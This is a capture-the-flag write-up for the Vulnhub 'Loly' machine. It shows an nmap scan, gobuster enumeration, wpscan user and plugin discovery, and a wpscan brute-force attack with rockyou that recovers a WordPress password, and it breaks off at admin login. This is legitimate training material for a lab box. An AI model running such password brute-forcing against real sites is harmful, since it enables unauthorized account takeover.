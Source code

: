 ```yaml
---
title: Vulnhub - Loly
description: My writeup on Loly box.
categories:
 - vulnhub
tags: vulnhub wordpress gobuster wpscan
---
```


![](https://mir-s3-cdn-cf.behance.net/project_modules/max_1200/ad961968970591.5b734bd15bb90.png)

You can find the machine there > [Loly](https://www.vulnhub.com/entry/loly-1,538/){:target="_blank"}

## Summary

This machine is an easy one, starting off we can find a wordpress installation and we gain access to it by running a brute force attack on the user. Shell uploading was a bit tricky, because common ways were blocked. After privilege escalation to first user was pretty easy we just have to look at wp-config file a really common method & the root one is based :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:22 EEST
Nmap scan report for loly.lc (192.168.1.15)
Host is up (0.0013s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:C1:62:D5 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.26 seconds
$ nmap -p 80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:23 EEST
Nmap scan report for loly.lc (192.168.1.15)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
```

Visiting the web page, is just the default nginx page. No `/robots.txt` and such stuff so let's move on and run `gobuster`.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/wordpress (Status: 301)
```

`/wordpress` isn't loading properly, checking the html code we can see a `dns-prefetch` and a domain name that's probably a virtual host let's add it to `/etc/hosts`.

```html
<link rel='dns-prefetch' href='//loly.lc'/>
```

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.15    loly.lc
```

Now we can see the wordpress site, let's run a `wpscan` on it to detect plugins/users.

```
$ wpscan --no-banner --url http://loly.lc/wordpress/ -e ap,u

..data..

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2020-09-08T17:49:00.000Z
 | [!] The version is out of date, the latest version is 5.8.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 ```

Interesting, without wasting more time let's run a brute force attack on loly user.

```
$ wpscan --no-banner --url http://loly.lc/wordpress/ -U loly -P /usr/share/wordlists/rockyou.txt 

..data..

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                             
Trying loly / corazon Time: 00:00:04 <==============================================================================================================> (175 / 175) 100.00% Time: 00:00:04

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
```

Perfect now we can login in, admin panel is under `/wp-admin`.
